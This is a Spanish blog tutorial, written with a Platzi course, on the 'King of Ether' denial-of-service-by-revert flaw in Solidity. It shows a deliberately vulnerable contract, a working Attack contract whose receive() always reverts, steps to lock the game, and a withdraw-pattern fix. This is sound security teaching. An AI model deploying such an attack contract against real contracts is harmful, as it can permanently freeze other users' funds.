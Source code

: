 ```yaml
---
title: 'Solidity: Ataque DoS Por Reversión'
description: 'Los contratos inteligentes pueden ser víctimas de ataques de denegación de servicios y bloqueados de tal manera que se pierdan millones de dólares y no puedan recuperarse jamás.'
image: '/tech/7-blockchain/solidity.png'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Revert DoS Attack',
  description: 'Smart contracts can be victims of denial-of-service attacks and blocked in such a way that millions of dollars are lost and can never be recovered.'
}
prev: 'external-calls'
next: 'dos-gas'
---
```


# Solidity: Ataque DoS Por Reversión

Es conocido en el mundo de la informática los Ataque de Denegación de Servicios o **DoS**. Los mismos **interrumpen de forma total o parcial un servicio** como un servidor web, un servidor de base de datos o algún tipo de red donde se intercambia información.

## DoS en Blockchain

Blockchain no es la excepción, los contratos inteligentes pueden ser víctimas de este tipo de ataques. Los contratos pueden quedar bloqueados de tal manera que **se pierdan millones de dólares y no puedan recuperarse jamás**.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos un contrato inteligente de un juego cuyo objetivo es convertirse en el "Rey" enviando más ETH que el Rey anterior. El Rey destronado recuperará su ETH al perder el trono. La vulnerabilidad provocará que el contrato inteligente quede inutilizable para siempre y que nadie más pueda proclamarse Rey.

> **NOTA:** El ejemplo de esta vulnerabilidad fue tomado y adaptado originalmente de [Solidity by examples](https://solidity-by-example.org/hacks/denial-of-service/ "Solidity by examples").

### Contratos involucrados

Comencemos analizando el contrato del juego que será vulnerado. Su función `claimThrone()` es la encargada de toda la lógica del mismo.

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

contract KingOfEther {
  address public king;
  uint public balance;

  function claimThrone() external payable {
    require(msg.value > balance, "Need to pay more to become the king");

    // Devolvemos ETH al Rey destronado
    (bool sent, ) = king.call{value: balance}("");
    require(sent, "Failed to send Ether");

    // Seteamos al nuevo Rey
    balance = msg.value;
    king = msg.sender;
  }
}
```

Por su parte, el contrato atacante. Su función `receive()` es la responsable de denegar el servicio para siempre del otro contrato.

```js
contract Attack {
  KingOfEther kingOfEther;

  constructor(KingOfEther _kingOfEther) {
    // Instanciamos KingOfEther con su dirección
    kingOfEther = KingOfEther(_kingOfEther);
  }

  // Función que revertirá la transacción siempre que se intente devolver el ETH al contrato.
  // Haciendo que nadie más pueda reclamar el trono.
  receive() external payable {
    revert();
  }

  // El ataque se origina cuando enviamos más ETH que el anterior Rey y el contrato Attack se convierte en el nuevo.
  function attack() public payable {
    kingOfEther.claimThrone{value: msg.value}();
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `KingOfEther`.
2. Enviar 1 ETH con Alice a través de la función `claimThrone()`.
2. Enviar 2 ETH con Bob a través de la función `claimThrone()`. Alice recupera 1 ETH y Bob es el nuevo Rey.
3. Desplegar el contrato `Attack` que recibe por parámetro la dirección de `KingOfEther`.
4. Realizar el llamado a `Attack.attack` con 3 ETH.
5. El nuevo Rey será el contrato atacante y nadie más podrá reclamar el reinado.

### ¿Qué sucedió aquí?

`Attack` se convirtió en el nuevo Rey. Nadie más puede reclamar el trono debido a que, cuando el contrato `KingOfEther` intenta devolverle sus ETH al contrato atacante, el mismo responde con un `revert()` a través de su función `receive()`.

El ataque genera que solo el contrato atacante pierda sus ETH, ya que el Rey destronado los recupera antes de setear como Rey al contrato atacante.

Si bien, como hemos dicho, *"solo el contrato atacante pierde sus ETH"*, puede parecer un ataque sin ningún tipo de sentido, ya que es ocasionado solo por querer hacer daño a un proyecto y para que el contrato quede inutilizable. Aun así, existen escenarios donde también hay perdidas económicas de otros usuarios.

### ¿Por qué sucedió?

`KingOfEther` espera una respuesta positiva al realizar el `call()` y devolver los ETH a su respectivo dueño. El `revert()` del contrato atacante provoca que en cada llamado siempre ocurra un error y nunca pueda setearse un nuevo Rey.

Cabe recalcar que la vulnerabilidad puede exponerse no solo a través de la función `receive()` más un `revert()`. Podría simplemente no existir una función `fallback()` en el contrato atacante y provocar el mismo daño de inutilizar el contrato vulnerado.

### ¿Cómo se puede evitar?

Observa la función principal de `KingOfEther`:

```js
function claimThrone() external payable {
  require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");

  (bool sent, ) = king.call{value: balance}("");
  require(sent, "El envio de ETH ha fallado.");

  balance = msg.value;
  king = msg.sender;
}
```

La misma se encarga tanto de devolver los ETH a su dueño como de setear al nuevo Rey posteriormente.

Esta vulnerabilidad puede evitarse haciendo una **división de responsabilidad**. Por un lado, la lógica para determinar al nuevo Rey. Por otro, el retiro de los ETH por parte de los usuarios que fueron destronados.

```js
contract KingOfEther {
  address public king;
  uint public balance;
  mapping(address => uint) public balances;

  function claimThrone() external payable {
    require(msg.value > balance, "Necesitas pagar mas para ser el nuevo Rey.");
    balances[king] += balance;
    balance = msg.value;
    king = msg.sender;
  }

  function withdraw() public {
    require(msg.sender != king, "El Rey actual no puede retirar sus fondos.");
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool sent, ) = msg.sender.call{value: amount}("");
    require(sent, "El envio de ETH ha fallado.");
  }
}
```

La administración de los balances de cada cuenta siempre es mejor realizarla con un `mapping`. La función `withdraw()` permitirá a los usuarios retirar su dinero (a excepción del Rey actual) y, por más que ocurra algún tipo de denegación, podrán recuperar sus ETH.

Cada usuario es responsable de sus ETH. El retiro del mismo deben hacerlo ellos mismos y ya no será el propio contrato inteligente quien se encargue de devolvérselos.

De esta forma, el ataque DoS solo afectará al mismo contrato atacado, quién será el único que no puede recuperar sus ETH.

## Conclusiones

Hay mucha gente que busca hacer daño allá afuera. Por más que ellos también salgan perjudicados económicamente. Buscan destruir un proyecto o comunidad que puede haber por detrás.
Busca siempre las mejores prácticas a la hora de escribir código. Como en todo desarrollo de software, existen patrones de diseño recomendados para escribir código. El *Principio de Responsabilidad Única* del patrón SOLID también aplica para el desarrollo Web3.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/ "Curso de Seguridad de Smart Contracts") de **Platzi**.
